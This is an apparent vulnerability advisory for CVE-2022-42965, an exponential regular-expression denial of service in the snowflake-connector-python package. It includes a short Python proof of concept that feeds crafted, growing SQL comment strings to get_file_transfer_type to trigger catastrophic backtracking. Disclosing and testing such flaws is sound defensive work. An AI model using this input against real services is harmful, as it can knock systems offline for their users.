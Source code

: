 ```yaml
---
description: CVE-2022-42965 Medium severity. Exponential ReDoS in snowflake-connector-python leads to denial of service
title: snowflake-connector-python ReDoS
date_published: "2022-10-15"
last_updated: "2022-10-15"
xray_id: XRAY-257185
vul_id: CVE-2022-42965
cvss: 5.9
severity: medium
discovered_by: Denys Vozniuk
type: vulnerability

---
```


## Summary

Exponential ReDoS in snowflake-connector-python leads to denial of service

## Component

[snowflake-connector-python](https://pypi.org/project/snowflake-connector-python)

## Affected versions

snowflake-connector-python (,)

## Description

An exponential ReDoS (Regular Expression Denial of Service) can be triggered in the snowflake-connector-python PyPI package, when an attacker is able to supply arbitrary input to the `get_file_transfer_type` method

## PoC

```python
import time
from snowflake.connector.cursor import SnowflakeCursor

for i in range(100):
    start_time = time.time()
    sql = '/**/\n' + '\t/*/get\t*/\t/**/\n'*i + '\t*/get\n'
    SnowflakeCursor.get_file_transfer_type(sql)
    print("--- %s seconds ---" % (time.time() - start_time))
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42965)